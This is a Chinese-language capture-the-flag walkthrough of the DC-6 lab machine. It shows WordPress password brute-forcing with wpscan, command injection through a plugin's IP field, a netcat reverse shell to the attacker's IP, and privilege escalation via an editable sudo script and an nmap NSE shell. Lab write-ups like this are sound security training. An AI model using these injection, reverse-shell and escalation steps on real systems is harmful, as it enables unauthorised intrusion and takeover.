




本次学习的是DC-6靶机，涉及wpscan爆破，命令注入，反弹shell，以及nmap提权
信息收集
查看靶机的mac地址：
arp扫描主机ip：
1 | arp-scan -l |

ip是192.168.130.146
使用nmap扫描开放的端口和服务
1 | nmap 192.168.130.146 |
开发了22的ssh服务和80的web服务
尝试暴力破解ssh的账户和密码：
1 | nmap --script=ssh-brute 192.168.130.146 |
爆破失败无解
查看web端，发现无法访问，而且url栏变成wordy，我们需要修改hosts文件配置：
1 | vi /etc/hosts |
加入192.168.130.146 wordy
1 | 192.168.130.146 wordy |
然后扫描web服务存在哪些文件：
1 | dirsearch -u 192.168.130.146 |
发现了登录入口，可是没有用户名和密码，使用wpscan爆破用户名
1 | wpscan --url http://wordy -e |

将用户名打包到一个文件内：
1 | admin |
然后使用kali自带的密码字典进行爆破：
先对该密码字典解压：
1 | gzip -dk /usr/share/wordlists/rockyou.txt.gz |

wpscan进行爆破：
1 | wpscan --url http://wordy -U user.txt -P /usr/share/wordlists/rockyou.txt |
发现速度太慢，但dc-6给了我们提示，可以筛选出包含 k01 的行（筛选出密码中带k01）
1 | cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt |
我们可以使用wpscan，bp，hydra，medusa等进行爆破，这里使用wpscan：
1 | wpscan --url http://wordy -U user.txt -P passwords.txt |
成功找到账号密码：mark—helpdesk01
命令注入
登录web端，发现了存在的注入点：
这里有一个ip转换的功能，我们使用|进行拼接，测试拼接后的命令能否执行
1 | 1.1 | whoami |
既然能够执行，那我们反弹shell，这里因为输入的长度有限制，所以我们用bp进行反弹：
先开启监听：
1 | nc -lvnp 8888 |
反弹：
1 | 1.1 | nc 192.168.130.128 8888 -e /bin/sh |
成功反弹，开启交互式shell（反弹得到的shell会有很多的限制）
1 | python -c 'import pty;pty.spawn("/bin/bash")' |
在用户mark目录下发现一个txt文件，发现里面有graham的密码
graham - GSo7isUM1D4
直接切换到graham用户
1 | su graham |

查看可以以root权限执行的命令：
1 | sudo -l |
发现可以无密码以jens用户来执行backup.sh文件
发现sh内容是一个压缩命令
1 | cat /home/jens/backups.sh |
既然该脚本可以执行，那我们就可以把一个打开bash的命令加入backups.sh中，然后执行该backups.sh脚本文件：
1 | echo '/bin/bash' >> /home/jens/backups.sh |
这里失败了，因为必须以jens用户执行
1 | sudo -u jens /home/jens/backups.sh |
成功切换到jens用户
nmap提权
查看其可以执行的命令
1 | sudo -l |
有namp命令，尝试提权，我们可以写一个nse脚本，脚本中写入打开一个新的shell，那我们就可以以root用户的身份切换到该shell中
我们先把打开shell的命令写入getshell.nse，然后用nmap执行该脚本即可
1 | echo 'os.execute("/bin/sh")' >getshell.nse |
这里有另外一种namp提权的方式，可以参考这篇文章：
https://gtfobins.github.io/gtfobins/nmap/#sudo
1 | TF=$(mktemp) |
成功拿到root权限，最后只需要找到flag即可
1 | find / -name *flag* |
“世界上只有一种真正的英雄主义，那就是在认识生活的真相后依然热爱生活” —罗曼罗兰
参考文章：